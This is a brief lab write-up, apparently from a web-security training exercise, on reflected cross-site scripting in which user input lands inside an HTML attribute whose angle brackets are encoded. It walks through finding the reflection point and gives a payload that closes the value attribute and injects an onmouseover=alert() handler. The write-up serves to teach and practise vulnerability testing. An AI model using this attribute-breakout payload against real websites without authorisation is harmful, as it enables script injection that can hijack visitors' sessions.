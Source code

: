 # Reflected XSS into attribute with angle brackets HTML encoded

### Scenario

We input a unique string like "uniquetest" and we search it in the "inspect element tab of the web browser".

```html
<h1>0 search results for 'uniquetest'</h1>
```

```html
<input type="text" placeholder="Search the blog..." name="search" value="uniquetest">
```

We notice that our string populated two element of the DOM.
One is a h1 string, **another is inside an attribute of a tag**.

### Exploit

So, we can break the tag using something like this:

```html
uniquetest" onmouseover=alert()
```

which will transform the "input tag" as following:
```html
<input type="text" placeholder="Search the blog..." name="search" value="uniquetest" onmouseover=alert()>
```

So, when we will mouse over the input element (a search bar), we will exploit the XSS vulnerability.
